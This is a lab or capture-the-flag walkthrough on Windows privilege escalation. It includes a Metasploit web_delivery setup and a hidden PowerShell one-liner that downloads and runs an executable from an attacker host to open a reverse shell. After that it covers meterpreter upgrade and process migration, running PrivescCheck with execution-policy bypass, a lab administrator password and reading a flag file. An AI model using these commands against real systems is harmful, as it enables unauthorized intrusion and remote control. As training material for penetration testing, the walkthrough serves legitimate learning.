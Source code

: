 ### Windows privilege escalation

#### PrivEscCheck

* In order to elevate your privileges on Windows, you must first identify privilege escalation vulnerabilities that exist on the target system.
* This process will differ greatly on the type of target you gain access to. Privilege escalation on Windows can be performed through a plethora of techniques based on the version of Windows and the system's unique configuration.
* This process can be quite tedious and time consuming and as a result, it is recommended to automate the processes of identifying privilege escalation vulnerabilities. This can be done through the use of various automation scripts
* **PricescCheck** is a script aims to enumerate common Windows configuration issues that can be leveraged for local privilege escalation. It also gathers various information that might be useful for exploitation and/or post-exploitation (https://github.com/itm4n/PrivescCheck).

```bash
msf6> use exploit/multi/script/web_delivery
msf6> set LHOST eth1
msf6> set target PSH\ (Binary)
msf6> set PSH-EncodedCommand false
msf6> run
```

It open a web listener on the attacker and generate a piece of PowerShell code :

```powershell
powershell.exe -nop -w hidden -c [Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;$z="echo ($env:temp+'\i8O16o8J.exe')"; (new-object System.Net.WebClient).DownloadFile('http://10.10.9.2:8080/sNfNARVJQJl', $z); invoke-item $z
```

Copy/paste this code on the target prompt command and the attacker gets a reverse shell on his terminal.

```bash
msf6> use post/multi/manage/shell_to_meterpreter
msf6> set win_transfer VBS
msf6> set session 1
msf6> run

meterpreter> pgrep explorer
meterpreter> migrate 4992
meterpreter> shell
```

With meterpreter, go to `c:\\users\student\desktop\privesccheck` and execute these commands in the privesc directory.

```bash
C:\> powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

Credentials : `administrator:hello_123321`. Open a PowerShell terminal as administrator and enter the password.

```powershell
PS> more c:\users\administrator\desktop\flag.txt
```
